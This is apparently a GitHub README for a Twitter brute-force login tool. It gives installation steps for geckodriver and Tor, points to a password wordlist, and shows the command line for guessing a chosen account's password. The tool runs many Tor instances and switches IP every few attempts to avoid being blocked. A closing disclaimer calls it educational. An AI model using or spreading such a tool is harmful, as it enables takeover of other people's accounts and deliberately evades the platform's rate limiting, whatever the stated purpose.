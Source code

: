 # TBA
Twitter brute force attack <br>
This attack covers attacks on multiple instances and switching IP Address after every 2-4 attemps from one instance to prevent getting IP-blocked.

# How to
1. Install Geckodriver in path (Ubuntu 18.04):
```bash
export GV=v0.26.0
wget "https://github.com/mozilla/geckodriver/releases/download/$GV/geckodriver-$GV-linux64.tar.gz"
tar xvzf geckodriver-$GV-linux64.tar.gz
chmod +x geckodriver
sudo cp geckodriver /usr/local/bin/
```
2. Download Tor binaries (Version 9.5 or newer on Ubuntu 18.04):
```bash
wget https://www.torproject.org/dist/torbrowser/9.5/tor-browser-linux64-9.5_en-US.tar.xz
tar -xf tor-browser-linux64-9.5_en-US.tar.xz
```
3. Install requirements:
```bash
pip3 install -r requirements.txt
```
4. Download suitable password list from [Github](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
5. Start brute forcing using command line
```bash
python3 TBA.py <username> <path_to_password_list> <path_to_tor_binaries> -<amount_of_tor_instances_optional>
python3 TBA.py myAccount path/to/wlist.txt path/to/tor-browser_en-US -instances 15
```

# Disclaimer
Do not use this if you are not sure wether you're acting on legal grounds or not.
In general it is not allowed to log into accounts you don't own.
This was made for educational purposes.
